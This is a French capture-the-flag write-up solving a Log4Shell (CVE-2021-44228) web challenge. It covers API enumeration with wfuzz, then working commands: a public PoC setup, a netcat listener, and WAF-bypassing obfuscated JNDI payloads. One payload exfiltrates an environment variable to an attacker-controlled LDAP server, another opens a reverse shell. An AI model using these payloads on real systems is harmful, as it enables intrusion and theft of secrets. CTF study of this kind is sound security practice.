

# ECW 2022 Write Up

## WEB - (Not So) Smart API - 75 solves - 368 pts

Not So Smart API est un challenge relativement simple lorsque l'on sait dans quelle direction s'orienter.
Le challenge commence par un brun d'énumération puis met en place l'exploitation de la faille Log4J.


### Enumération

A première vue, l'endpoint racine de l'API est inexistant et aucune réponse n'est configurée comme message d'erreur.


Qu'à cela ne tienne nous allons fuzzer l'API pour essayer de trouver des endpoints existants.  
/!\\ ATTENTION /!\\ Je suis resté bloqué un temps sur cette partie car je n'avais pas mis le slash de fin de route.


```Bash
wfuzz -c -w /opt/common.txt --hc 404 "http://213.32.7.237:22033/FUZZ/"

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://213.32.7.237:22033/FUZZ/
Total requests: 4614

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000428:   200        0 L      7 W        43 Ch       "api"
000001479:   500        0 L      1 W        73 Ch       "error"

Total time: 27.08907
Processed Requests: 4614
Filtered Requests: 4612
Requests/sec.: 170.3269
```

- /api --> error
- /api/ --> Welcome to Smart Transport & Logistics API!

L'endpoint /api/ semble prometteur creusons un peu plus dans cette direction :

```Bash
fuzz -c -w /opt/big.txt --hc 404 "http://213.32.7.237:22033/api/FUZZ/"  

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://213.32.7.237:22033/api/FUZZ/
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload 
=====================================================================
  
000004470:   405        0 L      3 W        108 Ch      "check" 
000007364:   400        0 L      2 W        104 Ch      "facility"

Total time: 0
Processed Requests: 20469
Filtered Requests: 20463
Requests/sec.: 0``
```

Nous avons trouvé deux autres endpoints ! En revanche nous n'avons à priori aucune idée de la manière de les utiliser.

- /api/check - POST 
- /api/facility - GET

Personnellement je suis longtemps resté bloqué ici. Le seul indice que nous ayons est l'emploi du mot "smart" api dans le titre. Après de nombreuses recherches infructueuses sur les sites se vantant de faire des "Smart API", j'ai décidé de chercher des swagger sur l'api. Je me suis aidé de la wordlist [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt) concernant les swagger.

```Bash
wfuzz -c -w swagger.txt --hc 404 "http://213.32.7.237:26740/FUZZ"

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://213.32.7.237:26740/FUZZ
Total requests: 50

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000030:   200        60 L     171 W      1713 Ch     "api/swagger.json"

Total time: 0.170167
Processed Requests: 50
Filtered Requests: 49
Requests/sec.: 293.8274
```

On accède enfin au swagger !


On remarque tout de suite une info importante : Le flag semble être caché dans une variable d'environnement.
Cette pratique est généralement fortement déconseillé puisque selon l'environnement une fuite de données secrètes (généralement des api keys) peut avoir lieu.

Dans un premier temps je me suis dis que si, par hasard, l'API était en mode debug et que j'arrivais à la faire crasher, peut être recevrais-je une page d'erreur de debug avec les variables d'environnements.  
Je me suis alors mis à DDOS l'endpoint /api/check/ avec des noms et prénoms très long dans le but d'écrire des logs dans toute la mémoire disponible. Je n'ai finalement réussi qu'un bête et simple DOS (Denial Of Service).  
Un petit redémarrage de docker et on est reparti en exploration !


Essayons les deux endpoints maintenant que nous savons quels paramètres leurs donner:

```Bash
curl -X GET "http://213.32.7.237:26740/api/facility" -H "X-API-Key: ZbeubZbeub" 

Wrong ACCESS_KEY
```

```Bash
curl -X POST "http://213.32.7.237:26740/api/check" -d "nom=Zbeub&prenom=Zbeub"

Your are not in our database, we will Log your identity.
```

J'ai instantanément tiqué sur le mot "Log". Il est déjà étonnant de notifié l'utilisateur que son input soit loggé il en devient d'autant plus suspect quand il s'agit d'un CTF !  
De plus lorsque l'on recherche le message d'erreur de l'API sur Google afin d'identifier la techno utilisé, on remarque que "Whitelabel Error Page" est visiblement un message de SpringBoot, un framework de ... Je vous le donne en mille : Java !

Equation simple --> Réponse simple : Log + Java = Log4J !

"La vulnérabilité [CVE-2021-44228 / Log4J / Log4Shell] permet à un attaquant distant, à partir d’un serveur LDAP, d'appeler la brique JNDI de log4j d’un serveur Apache à travers un serveur exposé afin d'exécuter du code malveillant. Cela est dû à un manque de contrôle des commandes reçues par l’API JNDI permettant  d’effectuer des connexions LDAP vers des annuaires." - [Vulnérabilité Critique dans Apache Log4j activement exploitée](https://cyberveille-sante.gouv.fr/alertes/2882-vulnerabilite-critique-dans-apache-log4j-activement-exploitee-mise-jour-le-23122021)

Essayons de mettre en place un exploit pour cette vulnérabilitée. Je ne vais pas réinventer la poudre, cette faille à été le sujet de nombreux Proof Of Concept et explications ces derniers mois. Aussi je vais me servir du poc réalisé par kozmer : [log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc).

Pour me simplifier la vie je vais me connecter sur mon vps afin d'avoir un serveur de rebond qui soit transparent de proxy :

On clone l'exploit sur le VPS :
```Bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

On télécharge la dépendence Java du script :
```Bash
wget https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz
tar xvf jdk-8u202-linux-x64.tar.gz
mv jdk1.8.0_202 jdk1.8.0_20
```

On installe les dépendances python :
```Bash
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

À l'aide de tmux je split mon terminal et je lance le script ainsi qu'un reverse shell à l'aide de netcat :

- Terminal 1 :
```Bash
python3 poc.py --userip XX.XX.XX.XX --webport 24935 --lport 2222

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://XX.XX.XX.XX:1389/a}
[+] Starting Webserver on port 24935 http://0.0.0.0:24935

Listening on 0.0.0.0:1389
```

- Terminal 2 :
```Bash
nc -nlvp 2222
```


On peut désormais essayer d'envoyer le payload que nous fournit gracieusement le script :

```Bash
curl -X POST "http://213.32.7.237:24935/api/check" -d "nom=Zbeub&prenom=$\{jndi:ldap://XX.XX.XX.XX:1389/a\}"

Attack detected! Try harder!
```

On est sur la bonne piste ! Il semblerait que quelqu'un ai essayé de protéger la vulnérabilité en detectant la présence d'un payload Log4J dans les requêtes de l'API !

On va donc essayer de contourner cette détection en faisant de l'obfuscation.

Pour ce faire je me suis servi de toutes les techniques de contournement renseignés par Puliczek sur son git : [LOG4J Java exploit - WAF and patches bypass tricks](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words).

Après avoir essayé toutes les possibilités et constaté qu'aucune ne fonctionne je suis allé chercher plus loin.
Voila ce que j'ai trouvé : [Found a bypass working for a few WAF](https://twitter.com/BountyOverflow/status/1470001858873802754) - @BountyOverflow



```Bash
curl -X POST "http://213.32.7.237:24935/api/check" -d 'nom=Zbeub&prenom=${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//XX.XX.XX.XX:1389/hostname=${env:ACCESS_KEY}}'
```


C'est passé ! Nous avons récupérer la variable d'environnement ! Merci la twittosphère !
Il ne nous reste plus qu'à nous en servir pour obtenir le flag via l'api :

```Bash
curl "http://213.32.7.237:29835/api/facility" -H "X-API-Key: $(echo -n 'LE_CONTEXTE_EST_INTERESSANT'|base64)"

Here is you access code : ECW{Ceci_000__eSt_le_flag}
```


### Option facultative RCE

Il est également possible d'obtenir directement un reverse shell via Log4Shell :

```Bash
curl -X POST "http://213.32.7.237:24935/api/check" -d 'nom=Zbeub&prenom=${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//XX.XX.XX.XX:1389/a}'
```


Ca y est nous avons notre reverse shell !
Il ne nous reste plus qu'à récupérer la variable d'environnement contenant la clé d'accès de l'api, ou bien afficher directement le flag !


